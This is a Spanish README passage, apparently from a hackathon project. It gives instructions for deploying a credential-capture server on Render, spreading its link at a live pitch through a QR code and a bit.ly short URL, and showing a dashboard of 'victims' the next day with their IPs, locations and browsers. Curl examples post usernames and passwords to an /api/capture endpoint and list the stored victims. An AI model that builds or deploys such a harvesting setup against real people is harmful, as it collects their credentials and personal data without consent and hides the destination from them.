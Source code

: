 ## ⚠️ Importante sobre Render Free

- El servidor se "duerme" después de 15 minutos sin actividad
- Tarda ~30 segundos en despertar cuando alguien entra
- **Solución:** Antes del pitch, abre la URL para activarlo

## 🎯 Flujo del Hackathon

### HOY (Pitch):
1. Deploy el servidor en Render
2. Personaliza el HTML con tu diseño
3. Comparte la URL: `https://tu-app.onrender.com/index.html`
4. Genera un QR code de esa URL
5. Muéstralo en el pitch

### MAÑANA (Demo):
1. Abre: `https://tu-app.onrender.com/dashboard.html`
2. Muestra todas las víctimas capturadas en 24 horas
3. Explica los datos: IPs, ubicaciones, navegadores, etc.

## 🧪 Probar que Funciona

```bash
# Prueba 1: Verificar que el servidor responde
curl https://tu-app.onrender.com/

# Prueba 2: Enviar datos de prueba
curl -X POST https://tu-app.onrender.com/api/capture \
  -H "Content-Type: application/json" \
  -d '{"username":"test","password":"test123"}'

# Prueba 3: Ver si se guardó
curl https://tu-app.onrender.com/api/victims
```

## 📱 Compartir en el Hackathon

### QR Code:
Usa: https://www.qr-code-generator.com
- Introduce tu URL
- Genera QR
- Imprime o muestra en pantalla

### URL Corta:
Usa: https://bit.ly
- Acorta tu URL de Render
- Más fácil de compartir verbalmente

## 🛠️ Comandos Útiles
